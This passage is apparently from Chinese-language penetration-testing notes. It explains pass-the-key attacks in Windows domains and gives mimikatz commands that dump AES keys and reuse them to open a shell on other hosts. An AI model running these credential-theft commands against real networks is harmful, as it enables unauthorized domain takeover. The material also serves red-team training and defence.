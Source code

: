 ![](img/24.png)

## PTK-mimikatz

如果禁用了ntlm认证，PsExec无法利用获得的ntlm hash进行远程连接，但是使用mimikatz还是可以攻击成功。对于`8.1/2012r2`，安装补丁kb2871997的`Win 7/2008r2/8/2012`等，可以使用AES keys代替NT hash来实现ptk攻击

* **pth**：没打补丁用户都可以连接，打了补丁只能administrator连接
* **ptk**：打了补丁才能用户都可以连接，采用aes256连接

1. 首先使用mimikatz获取aes256

```
mimikatz sekurlsa::ekeys
```

2. 攻击该域内其它主机，成功后返回cmd

```
mimikatz sekurlsa::pth /user:administrator /domain:god /aes256:d55913af88d543d2411109270ea36c1c29a71de7a3156d61cd6989feb0f1ae
```

## PTT-ms14068
